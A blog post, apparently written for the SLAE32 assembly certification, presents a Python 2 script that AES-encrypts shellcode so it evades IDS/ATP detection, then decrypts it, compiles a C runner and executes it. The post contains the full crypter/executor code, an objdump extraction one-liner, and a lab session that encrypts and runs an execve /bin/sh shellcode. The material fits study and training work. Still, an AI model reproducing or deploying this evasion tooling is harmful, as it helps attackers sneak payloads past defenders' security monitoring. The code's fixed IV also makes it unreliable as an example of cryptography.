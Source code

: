 ```yaml
---
layout: single
title: AES Block Cipher script for Shellcodes
date: 2019-10-18
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
I think the best way to obfuscate shellcodes to avoid IDS/ATP protection is the polyphormism method, but also encrypting the shellcode could be a valid alternative to bypass those control systems. There are a lot of cipher algorithms outside to choose for this purpose but we need considering some aspects in this case. First we need a strong algorithm to prevent bruteforce on key or frequency analysys attack on ciphered text, second we need our implementation easy to write, easy to use and fast on encrypting/decrypting operations.<br>
First of all we need to choose if we want to implement a stream or block cipher, let's look at some features:

| 1. |	Block Cipher Converts the plain text into cipher text by taking plain text’s block at a time. |	Stream Cipher Converts the plaint text into cipher text by taking 1 byte of plain text at a time.
| 2. |	The complexity of block cipher is simple. |	Stream cipher is more complex.
| 3. |	Block cipher uses confusion as well as diffusion. |	Stream cipher uses only confusion.

There are many other features to list but this isn't the scope of this post. If you want to deep learn informations on block and stream ciphers I suggest to read this [book](https://www.crcpress.com/Cryptography-Theory-and-Practice/Stinson-Paterson/p/book/9781138197015).<br>
We choosed a block cipher algorithm. Next decisiom to make is what block cipher algorithm? According to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher) there are a lot of block cipher but one in particular is adopted by the NIST, the Advanced Encryption Standard (AES), wich could encrypt plain text block with a maximum 256 byte key size.<br>

## Implementation
Sometimes ago i wrote a python script for my [Github Redteam toolbox](https://github.com/bolonobolo/toolbox/blob/master/criptography/block_cipher.py) that works with block ciphers (AES, DES and 3DES).
So we've only to make some small changes on this script to make it operational on encrypting/decrypting and executing shellcode.
The original script works with OFB variant of the AES algorithm that means that i've to use alway a different Initiator Vector (IV).
In this case we work with CBC mode so the IV could be a fixed 16 bytes string.
However the main change to make is to add a function that execute our shellcode once it is decrypted.
Taking note that this script works only with python2, here's the code.<br>
```python
#!/usr/bin/python

# AES Block Cipher script for shellcodes
# Author: @bolonobolo
# Date: 2019/10/18

from Crypto.Cipher import AES
from base64 import b64encode,b64decode
import random
import string
import os

def getMode():
	while True:
		print ("Welcome to AES Block Cipher script for shellcodes")
		print("Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?")
		mode = raw_input().lower()
		if mode in "encrypt e decrypt d execute x".split():
			return mode
		else:
			print('Enter either "encrypt" or "e", "decrypt" or "d", "execute" or "x".')

def getMessage():
	print("Enter the text")
	return raw_input()

def getKey():
	print("Enter the key")
	return raw_input()

def getIV():
	# 16 byte iv
	iv = "0123456789abcdef"
	return iv


def genkey(length):
	key = []
	# in ascii one letter = 8 bit = 1 byte 
	# AES needs 128, 192, or 256 bits, i choosed 256 256/8 = 32
	for _ in range (0,length):
		key.append(random.SystemRandom().choice(
				string.ascii_uppercase + string.ascii_lowercase + string.digits
				)) 
	return ''.join(key)

def aes(cipher, key, iv):
	cipher = AES.new(key, AES.MODE_CBC, iv)
	return cipher

def padding(size, text):
	while len(text) % size != 0:
			text += " "
	return text	

def cipherAlgo(key, text, size, iv):
	cipher = aes("aes", key, iv)	
	text = padding(size, text)
	text = cipher.encrypt(text)
	msg = b64encode(text)
	return msg

def decipherAlgo(key, text, iv):
	cipher = aes("aes", key, iv)
	text = b64decode(text)	
	msg = cipher.decrypt(text)
	return msg

def executeAlgo(code):
	code = code.replace(" ", "") # eventualy clean code from blank spaces
	file = open("shellcode.c", "w")
	file.write('''
		#include<stdio.h>
		#include<string.h>

		unsigned char code[] = \"''' + code + '''";

		void main() {

			printf(\"Shellcode Length:  %d\\n\", strlen(code));

			int (*ret)() = (int(*)())code;

			ret();

		}'''
	)
	file.close()
	os.system("gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shellcode 2>/dev/null && ./shellcode")

def main():
	mode = getMode()
	text = getMessage()
	iv = getIV()
	if mode[0] == "e":
		key = genkey(32) # 256 bits of key
		size = 16 # block size has to be 16 bytes
		msg = cipherAlgo(key, text, size, iv)
		print("Encrypted shellcode: %s" % (msg))
		print("The key is: %s" % (key))
		# print("The IV is: %s" % (iv))
	elif mode[0] == "d":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
	elif mode[0] == "x":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
		executeAlgo(msg)	

if __name__ == '__main__':
	main()
```    

## Simple usage
Theentire workflow is very simple, first we need to extract the hexadecimal values of our shellcode with ```objdump``` command, next we launch the script choosing the ```encrypt``` option, paste our hex string, press enter and obtain the encrypted string and the key.
Now we can relauch the script but this time we'll choose the ```execute``` option that decrypt the encrypted shellcode, write a C executer, compile it and execute it.<br>
```bash
root@slae32-lab:# objdump -d ../6_polimorphism/execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
e
Enter the text
\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80
Encrypted shellcode: 2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
The key is: PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
x
Enter the text
2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
Enter the key
PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
Decrypted shellcode: \x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80            
Shellcode Length:  25
# exit
root@slae32-lab:# ls
aes_executor.py  shellcode  shellcode.c
```
For our test we choose the last 25 bytes execve /bin/sh shellcode.<br>
![](/assets/images/SLAE32/assignment_7/crypto_0.gif)<br>
Nice job<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
